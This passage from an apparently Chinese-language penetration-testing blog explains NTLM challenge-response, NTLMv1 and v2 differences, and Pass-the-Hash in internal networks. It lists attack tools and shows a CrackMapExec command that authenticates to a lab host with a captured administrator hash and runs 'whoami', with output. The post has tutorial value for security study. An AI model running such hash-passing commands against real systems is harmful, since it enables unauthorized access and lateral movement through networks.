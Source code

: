 1.Chanllenge是Server产生的一个16字节的随机数，每次认证都不同

2.Response的表现形式是Net-NTLM Hash，它是由客户端 提供的密码Hash加密Server返回的Chanllenge产生的结果。

![0x01.png](https://images.payloads.online/35efa6d8-4f5f-11ec-807d-00d861bf4abb.png)

### NTLM V2协议

NTLM v1与NTLM v2最显著的区别就是Challenge与加密算法不同，共同点就是加密的原料都是NTLM Hash。

下面细说一下有什么不同:

* Challage:NTLM v1的Challenge有8位，NTLM v2的Challenge为16位。
* Net-NTLM Hash:NTLM v1的主要加密算法是DES，NTLM v2的主要加密算法是HMAC-MD5。

现在应该能够理解什么是NTLM、NTLM Hash、LM、LM Hash、Net NTLM Hash了吧？

### Pass The Hash

在内网渗透中，我们经常会需要抓取管理员的密码、NTLM Hash，通过搜集这些信息有助于我们扩大战果，尤其是在域环境下。 

* 什么是哈希传递?

哈希传递是能够在不需要账户明文密码的情况下完成认证的一个技术。

* 哈希传递的作用?

解决了我们渗透中获取不到明文密码、破解不了NTLM Hash而又 想扩大战果的问题。

**Pass The Hash - 必要条件**

* 哈希传递需要被认证的主机能够访问到服务器(废话)
* 哈希传递需要被传递认证的用户名
* 哈希传递需要被传递认证用户的NTLM Hash

要完成一个NTLM认证，第一步需要客户端将自己要参与认证的 用户名发送至服务器端，等待服务器端给出的Challenge⋯⋯

其实哈希传递就是使用用户名对应的NTLM Hash将服务器给出的 Chanllenge加密，生成一个Response，来完成认证。

Pass The Hash能够完成一个不需要输入密码的NTLM协议认证流程，所以不算是一个漏洞，算是一个技巧。

Pass The Hash的工具：

* Smbmap
* CrackMapExec
* Smbexec
* Metasploit


使用CrackMapExec实现Hash传递：

```c
root@kali:~/cache# cme smb 192.168.3.5 -u administrator -H dab7de8feeb5ecac65faf9fdc6cac3a9 -x whoami
SMB 192.168.3.5 445 LIYINGZHEA30B
[*] Windows 7 Ultimate 7601 Service Pack 1 x64 (name:LIYINGZHEA30B)
(domain:PAYLOADS) (signing:False) (SMBv1:True)
SMB 192.168.3.5 445 LIYINGZHEA30B
[+] PAYLOADS\administrator dab7de8feeb5ecac65faf9fdc6cac3a9
(Pwn3d!)SMB 192.168.3.5 445 LIYINGZHEA30B [+] Executed command
```
